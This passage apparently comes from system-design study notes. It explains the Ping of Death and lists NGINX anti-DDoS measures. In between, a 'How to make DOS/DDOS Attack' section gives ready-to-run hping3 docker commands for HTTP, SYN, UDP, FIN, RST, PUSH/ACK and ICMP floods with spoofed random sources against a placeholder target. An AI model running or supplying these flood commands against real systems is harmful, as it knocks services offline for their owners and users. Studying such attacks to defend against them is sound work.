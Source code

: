 ![30.png](images/system.design.8/30.png)

### Ping of Death Attack

> PoD is caused by an attacker deliberately sending an IP packet larger than the 65,536 bytes allowed by the IP protocol. Can be executed by running
> 
> ping -l 65610 somesite.com
> 
> Before 1997 many operating systems didn't know what to do when they received an oversized packet, so they froze, crashed, or rebooted.

### How to make DOS/DDOS Attack

https://linux.die.net/man/8/hping3

- For this you will need **hping3**:
    - _docker pull utkudarilmaz/hping3:latest_
- With this tool you can launch: HTTP Flood, TCP SYN Flood, UDP Flood, TCP FIN FLood, TCP RST Flood, PUSH and ACK Flood, ICMP Flood. And here is how:
- **HTTP flood**:
  - _docker run utkudarilmaz/hping3:latest --rand-source --flood [TARGET IP] -p [TARGET PORT]_
- **TCP SYN flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -S -q -n --flood [TARGET IP] -p [TARGET PORT]_
- **UDP flood**:
  - _docker run utkudarilmaz/hping3:latest --rand-source --udp --flood [TARGET IP] -p [TARGET PORT]_
- **TCP FIN Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -F --flood [TARGET IP] -p [TARGET PORT]_
- **TCP RST Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -R --flood [TARGET IP] -p [TARGET PORT]_  
- **PUSH and ACK Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -PA --flood [TARGET IP] -p [TARGET PORT]_  
- **ICMP Flood**
  - _docker run utkudarilmaz/hping3:latest --rand-source -1 --flood [TARGET IP] -p [TARGET PORT]_

### How to protect NGINX?

https://blog.nginx.org/blog/mitigating-ddos-attacks-with-nginx-and-nginx-plus

- Limit the Rate of Requests
- Limit the Number of Connections
- Closing Slow Connections
- Blacklist suspicious IP Addresses
- Whitelist trusted IP Addresses
- Use Cache to Smooth Traffic Spikes
- Block suspicious Requests

---

## Storages Physics


[//]: # (### ✍️ Excalidraw schemes:)
[//]: # (- [Ticket master]&#40;excalidraw/ticket-master.excalidraw&#41;)
[//]: # (## System Desing resources)
[//]: # (![dZEbZaT.png]&#40;./images/system.design/dZEbZaT.png&#41;)